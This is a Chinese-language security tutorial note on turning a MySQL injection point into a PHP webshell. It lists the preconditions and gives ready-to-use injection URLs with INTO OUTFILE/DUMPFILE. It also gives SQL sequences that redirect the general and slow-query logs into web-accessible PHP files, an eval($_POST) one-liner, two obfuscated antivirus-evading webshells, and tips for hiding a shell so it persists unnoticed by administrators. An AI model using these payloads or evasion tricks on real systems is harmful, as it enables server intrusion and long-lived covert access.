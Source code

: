 ```yaml
---
title: MySQL写shell
date: 2020-1-22 20:11:00
---
```


**MySQL注入点，用工具对目标站直接写入一句话，需要哪些条件？**

root权限以及网站的绝对路径

## outfile和dumpfile写shell

### 利用条件

过滤了单引号into outfile还能用吗？不能，GPC要off才行，可以测试Hex编码

> 1. 数据库当前用户为root权限；
> 2. 知道当前网站的绝对路径；
> 3. `PHP`的`GPC`为 off状态；(魔术引号，GET，POST，Cookie)
> 4. 写入的那个路径存在写入权限。

### **基于UNION联合查询**：

```bash
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into outfile 'C:\info.php'%23
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into dumpfile 'C:\info.php'%23
```

### **非联合查询**

当我们无法使用联合查询时，我们可以使用`fields terminated by`与`lines terminated by`来写shell

```bash
?id=1 into outfile 'C:\info.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23
```

**代替空格的方法**

+号，`%0a`、`%0b`、`%a0` 、 /**/ 注释符等

### `outfile`和`dumpfile`的区别

`outfile`:

> 1、 支持多行数据同时导出
>
> 2、 使用union联合查询时，要保证两侧查询的列数相同 
>
> 3、 会在换行符制表符后面追加反斜杠 
>
> 4、会在末尾追加换行 

`dumpfile`:

> 1、 每次只能导出一行数据 
>
> 2、 不会在换行符制表符后面追加反斜杠 
>
> 3、 不会在末尾追加换行 

因此，我们可以使用`into dumpfile`这个函数来顺利写入二进制文件;

当然`into outfile`函数也可以写入二进制文件，只是最终无法生效罢了（追加的反斜杠会使二进制文件无法生效） 



如果服务器端本身的查询语句，结果有多行，但是我们又想使用`dump file`，应该手动添加 limit 限制

## 突破`secure-file-priv`写shell

`MySQL`的`secure-file-priv`参数是用来限制LOAD DATA, SELECT … `OUTFILE`, and LOAD_FILE()传到哪个指定目录的。

当`secure_file_priv`的值没有具体值时，表示不对`MySQL`的导入|导出做限制，如果是null，表示`MySQL`不允许导入导出。

而且在`mysql 5.6.34`版本以后 `secure_file_priv` 的值默认为NULL。并且无法用`SQL`语句对其进行修改。

## **基于日志写shell** 

（ `outfile`被禁止，或者写入文件被拦截，没写权限 ，有root权限）

```sql
show variables like '%general%';	--查看配置，日志是否开启，和mysql默认log地址(记下原地址方便恢复)
set global general_log = on;		--开启日志监测，默认关闭(如果一直开文件会很大的)
set global general_log_file = '/var/www/html/info.php';		--设置日志路径
select '<?php phpinfo();?>';		--执行查询，写入shell
--结束后，恢复日志路径，关闭日志监测

--SQL查询免杀shell
select "<?php $sl = create_function('', @$_REQUEST['klion']);$sl();?>";

SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";

---------------
--慢查询写shell
---------------
为什么要用慢查询写呢？上边说过开启日志监测后文件会很大，网站访问量大的话我们写的shell会出错
show variables like '%slow_query_log%';		--查看慢查询信息
set global slow_query_log=1;				--启用慢查询日志(默认禁用)
set global slow_query_log_file='C:\\phpStudy\\WWW\\shell.php';	--修改日志文件路径
select '<?php @eval($_POST[abc]);?>' or sleep(11);				--写shell
```

## **慢查询补充**

因为是用的慢查询日志，所以说只有当查询语句执行的时间要超过系统默认的时间时,该语句才会被记入进慢查询日志。 

一般都是通过`long_query_time`选项来设置这个时间值，时间以秒为单位，可以精确到微秒。

如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中 

```sql
show global variables like '%long_query_time%'		--查看服务器默认时间值
```

通常情况下执行`sql`语句时的执行时间一般不会超过10s，所以说这个日志文件应该是比较小的，而且默认也是禁用状态，不会引起管理员的察觉 

拿到shell后上传一个新的shell，删掉原来shell，新shell做隐藏，这样shell可能还能活的时间长些



像这种东西还是比较适合那些集成环境,比如,`appserv`,`xampp`...因为权限全部都映射到同一个系统用户上了,如果是win平台,权限通常都比较高 

**其它方法**：通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，找上传点 `GetShell`